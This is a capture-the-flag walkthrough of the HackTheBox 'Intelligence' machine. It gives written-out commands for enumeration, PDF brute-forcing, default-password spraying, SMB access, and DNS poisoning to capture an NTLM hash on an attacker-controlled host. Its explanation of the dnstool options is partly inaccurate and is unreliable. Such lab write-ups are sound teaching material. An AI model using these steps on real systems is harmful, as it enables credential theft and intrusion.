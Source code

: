 ```yaml
---
description: https://app.hackthebox.com/machines/357
---
```


# 🧠 Intelligence

<figure><img src="../../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

I start by doing a Nmap -p- without anything to know all the ports open, then throw in a big command to properly enumerate the open ports to win some time:

```
nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,3269,3268,5985,9389,49667,49691,49692,49709,49713,54414 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

I then go on the http webpage on port 80 and use feroxbuster:

```
feroxbuster -u http://intelligence.htb -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

<figure><img src="../../../.gitbook/assets/image (664).png" alt=""><figcaption></figcaption></figure>

the /documents is forbidden ->

<figure><img src="../../../.gitbook/assets/image (665).png" alt=""><figcaption></figcaption></figure>

but the subdomains are not

<figure><img src="../../../.gitbook/assets/image (666).png" alt=""><figcaption></figcaption></figure>

Nothing to see in the first place but then I saw that this was a PDF and not a txt oriented file, let's see if there is exif data ->

```
exiftool 2020-01-01-upload.pdf 
```

<figure><img src="../../../.gitbook/assets/image (667).png" alt=""><figcaption></figcaption></figure>

there was another PDF in the subdomains ->

<figure><img src="../../../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Ok so we get 2 possible users? Let's continue enumeration:

```
kerbrute userenum --dc 10.129.44.184 -d intelligence.htb users
```

<figure><img src="../../../.gitbook/assets/image (669).png" alt=""><figcaption></figcaption></figure>

No we need to check to see if either has the don’t require preauth flag set, which would leak the users hash (this is AS-REP-roasting):

```
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/Jose.Williams
GetNPUsers.py -no-pass -dc-ip 10.129.44.184 intelligence.htb/William.Lee
```

<figure><img src="../../../.gitbook/assets/image (670).png" alt=""><figcaption></figcaption></figure>

That got me thinking that the PDFs are named based on the date they were created. So, we can conclud that we could potentially bruteforce the PDF names and download them that are not referenced in the website.

So we create a little script in python or bash to follow the nomenclature of the website:

```
#!/bin/bash
DATE=2020-01-01

for i in {0..366}
do
       NEXT_DATE=$(date +%Y-%m-%d -d "$DATE + $i day")
          echo "$NEXT_DATE""-upload"
      done
```

```
chmod +x dates4bruteforce.sh
./dates4bruteforce.sh > pdfname
```

<figure><img src="../../../.gitbook/assets/image (671).png" alt=""><figcaption></figcaption></figure>

and the one-liner to go and bruteforce and download all of this:

```
for i in $(cat ../pdfname); do wget http://10.129.44.184/documents/$i".pdf"; done
```

i made a folder to store all of the PDF's

<figure><img src="../../../.gitbook/assets/image (672).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (673).png" alt=""><figcaption></figcaption></figure>

after manually looking we find a PDF with default password:

<figure><img src="../../../.gitbook/assets/image (674).png" alt=""><figcaption><p>NewIntelligenceCorpUser9876</p></figcaption></figure>

We can easily say to ourselves that there is Exif data on all of them with valid users, we need to script it out:

```
find . *.pdf|xargs exiftool |grep Creator|awk '{print $3}' >  userPDF.txt
```

<figure><img src="../../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

So now we can spray this password to see if anyone left it by default:

```
crackmapexec smb 10.129.44.184 -u userPDF.txt -p NewIntelligenceCorpUser9876 --continue-on-success
```

<figure><img src="../../../.gitbook/assets/image (676).png" alt=""><figcaption><p>Tiffany.Molina</p></figcaption></figure>

So this _**Tiffany.Molina**_ user left password by default

Now let's try to dig out on the SMB side of the user:

```
smbmap -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>

and then we connect in the Users share:

```
smbclient -U Tiffany.Molina //10.129.44.184/Users NewIntelligenceCorpUser9876
```

And pull the user flag out of the Desktop:

<figure><img src="../../../.gitbook/assets/image (678).png" alt=""><figcaption></figcaption></figure>

further enumeration led to going in the IT share ->

<figure><img src="../../../.gitbook/assets/image (679).png" alt=""><figcaption></figcaption></figure>

We find this PowerShell script:

<figure><img src="../../../.gitbook/assets/image (680).png" alt=""><figcaption></figcaption></figure>

> The script goes into LDAP and gets a list of all the computers, and then loops over the ones where the name starts with “web”. It will try to issue a web request to that server (with the running users’s credentials), and if the status code isn’t 200, it will email Ted.Graves and let them know that the host is down. The comment at the top says it is scheduled to run every five minutes.

<figure><img src="../../../.gitbook/assets/image (681).png" alt=""><figcaption></figcaption></figure>

> in theory, if we can add a DNS record that starts with `web`, which points to a machine that we control, then we can potentially get the NTLM hash of the user, the script is running as!

`dnstool.py` is a script that comes with [Krbrelayx](https://github.com/dirkjanm/krbrelayx)&#x20;

before interacting with Kerberos, we have to make sure that our machine’s time is in sync with the target machine. Generally, we can use things like Nmap output, HTTP header etc to determine the target’s time and change our machine time with `date` command.

```
sudo ntpdate 10.129.44.184
```

<figure><img src="../../../.gitbook/assets/image (682).png" alt=""><figcaption></figcaption></figure>

then we go and interract ->

```
python dnstool.py -u intelligence.htb\\Tiffany.Molina -p NewIntelligenceCorpUser9876 -r webfelix.intelligence.htb -a add -d 10.10.14.166 10.129.44.184
```

* `-u`: This option specifies the username for authentication. In this case, the username is `intelligence.htb\\Tiffany.Molina`.
* `-p`: This option specifies the password for authentication. Here, the password is `NewIntelligenceCorpUser9876`.
* `-r`: This option specifies the remote DNS server to which the tool will connect. Here, the remote DNS server is `webfelix.intelligence.htb`.
* `-a`: This option specifies the action to perform. The value `add` indicates that a new DNS record will be added.
* `-d`: This option specifies the IP addresses for the DNS record. In this case, the IP addresses are `10.10.14.166` and `10.129.44.184`. in summary, this command is attempting to add a new DNS record to the `webfelix.intelligence.htb` remote DNS server using the provided username and password, with the new DNS record pointing to the IP addresses `10.10.14.166` and `10.129.44.184`.

<figure><img src="../../../.gitbook/assets/image (683).png" alt=""><figcaption></figcaption></figure>

Okay, we successfully add a new record, next →

when I launch my responder, I get this error →

```
responder -I tun0
```

<figure><img src="../../../.gitbook/assets/image (684).png" alt=""><figcaption></figcaption></figure>

So I check which program is currently running on this port:

```
netstat -tuln
```

<figure><img src="../../../.gitbook/assets/image (685).png" alt=""><figcaption></figcaption></figure>

i can get more info on what's running with the following command

```
sudo lsof -i :80
```
